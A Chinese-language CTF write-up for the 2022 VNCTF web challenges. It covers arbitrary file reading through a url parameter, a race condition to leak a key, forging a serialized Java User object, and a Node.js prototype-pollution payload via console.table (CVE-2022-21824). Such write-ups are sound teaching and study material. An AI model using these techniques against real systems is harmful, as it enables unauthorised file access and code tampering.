





# 2022-VNCTF-Web-Writeup

## 前言

20多天没发过博客了。。真实的原因是。。。打了20多天的游戏一点没学习。。。不能再颓废了。。。

## GameV4.0



base64解密就行

## easyJ4va

`/file?url=`可以读文件，而且Java的file协议可以列目录，所以直接读tomcat就行：



然后审代码，首先是key的获取：

```java
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String reqName = req.getParameter("name");
        if (reqName != null) {
            this.name = reqName;
        }

        if (Secr3t.check(this.name)) {
            this.Response(resp, "no vnctf2022!");
        } else {
            if (Secr3t.check(this.name)) {
                this.Response(resp, "The Key is " + Secr3t.getKey());
            }

        }
    }
```

条件竞争即可了：



然后就是反序列化：

```java
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String key = req.getParameter("key");
        String text = req.getParameter("base64");
        if (Secr3t.getKey().equals(key) && text != null) {
            Decoder decoder = Base64.getDecoder();
            byte[] textByte = decoder.decode(text);
            User u = (User)SerAndDe.deserialize(textByte);
            if (this.user.equals(u)) {
                this.Response(resp, "Deserialize…… Flag is " + Secr3t.getFlag().toString());
            }
        } else {
            this.Response(resp, "KeyError");
        }

    }
```

```java
    private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        this.height = (String)s.readObject();
    }
```

本地多写个`writeObject`就行了：

```java
    private void writeObject(ObjectOutputStream s) throws Exception{
        s.defaultWriteObject();
        s.writeObject("180");
    }
```

```java
        Object user = new User("m4n_q1u_666","666","123");
        byte[] data = SerAndDe.serialize(user);
        String s = Base64.getEncoder().encodeToString(data);
        System.out.println(s);
```



## gocalc0

没看懂啥意思。。。不知道咋回事把session给b64解码一下然后中间解码一下就给了flag:



## newcalc0

https://nodejs.org/en/blog/vulnerability/jan-2022-security-releases/#prototype-pollution-via-console-table-properties-low-cve-2022-21824

```
e=
1;
console.table({"a":{"feng":"abc"}},["__proto__"]);
```

